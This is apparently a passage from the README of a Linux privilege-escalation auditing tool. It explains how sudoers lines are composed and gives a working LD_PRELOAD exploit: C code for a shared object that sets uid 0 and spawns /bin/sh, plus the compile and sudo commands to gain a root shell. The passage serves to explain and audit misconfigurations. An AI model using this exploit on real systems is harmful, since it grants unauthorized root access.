   

#include <stdio.h>

#include <sys/types.h>

#include <stdlib.h>

void _init() {

unsetenv("LD_PRELOAD");

setgid(0);

setuid(0);

system("/bin/sh");

}

  

**Compile it:**

  

gcc -fPIC -shared -o shell.so shell.c -nostartfiles

  

If you have a binary that you could launch with sudo and NOPASSWD, launch it with LD_PRELOAD pointing to your shared object:

  

sudo LD_PRELOAD=/tmp/shell.so find

  

### Sudoers file

Most of privilege escalations on Linux servers are done using bad sudo configurations. This configuration can be seen in /etc/sudoers file. 

To better understand the BeRoot workflow, you should have an idea on how a sudoers line is composed.

  

**Basic line pattern:**

  

users  hosts = (run-as) tags: commands

#### **Here is an example using aliases.**

User_Alias ADMINS = admin, user, root

Cmnd_Alias ADMIN_CMDS = /sbin/service, /usr/sbin/iptables, python /tmp/file.py

ADMINS ALL = (ALL) NOPASSWD: ADMIN_CMDS

  

**So users "admin", "user" and "root" could execute "service", "iptables" and "file.py" without password needed (thanks to NOPASSWD):**
